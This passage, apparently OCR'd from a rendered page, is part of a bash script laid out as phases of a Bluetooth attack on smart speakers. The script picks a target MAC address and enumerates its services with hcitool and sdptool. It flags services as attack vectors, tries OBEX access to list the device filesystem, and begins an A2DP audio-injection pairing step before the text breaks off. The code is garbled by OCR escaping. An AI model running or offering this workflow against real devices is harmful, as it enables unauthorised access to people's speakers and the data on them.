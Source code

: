 #### **Phase 2: Target Identification and Service Enumeration**

\# Extract target MAC addresses\
TARGET_MAC=\$(cat potential_targets.txt \| head -1 \| grep -oE
'(\[0-9A-F\]{2}:){5}\[0-9A-F\]{2}')

echo "Step 3: Target identified - \$TARGET_MAC"\
echo "Gathering detailed information..."

\# Device information gathering\
hcitool info \$TARGET_MAC \> device_info.txt\
hcitool name \$TARGET_MAC \>\> device_info.txt

\# Service discovery - critical step\
echo "Step 4: Enumerating services..."\
sdptool browse \$TARGET_MAC \> services.txt

\# Look for specific services common in smart speakers\
echo "Analyzing services for attack vectors..."\
grep -E "(A2DP\|AVRCP\|HFP\|HSP\|OBEX)" services.txt \>
attack_services.txt

\# Check for audio services\
echo "Audio services found:"\
grep -i "audio" services.txt

\# Check for vulnerable services\
echo "Checking for potentially vulnerable services..."\
grep -E "(RFCOMM\|L2CAP\|SDP)" services.txt \> vulnerable_services.txt

#### **Phase 3: Vulnerability Assessment**

\# Step 5: Testing connectivity and response\
echo "Step 5: Testing device responsiveness..."\
sudo l2ping -c 5 \$TARGET_MAC \> connectivity_test.txt

\# Test for information disclosure\
echo "Step 6: Testing for information disclosure..."

\# Attempt OBEX connection (if available)\
if grep -q "OBEX" services.txt; then\
echo "OBEX service detected - testing access..."\
obexftp -b \$TARGET_MAC -l \> obex_test.txt 2\>&1

    if \[ $? \-eq 0 \]; then  
        echo "CRITICAL: OBEX access successful\!"  
        echo "Attempting to browse device filesystem..."  
        obexftp \-b $TARGET\_MAC \-c / \-l \> filesystem\_enum.txt  
    fi  

fi

\# Test A2DP audio injection (common attack vector)\
if grep -q "A2DP" services.txt; then\
echo "A2DP detected - testing audio injection..."\
\# Attempt to pair and inject audio\
echo "Attempting pairing for audio injection..."
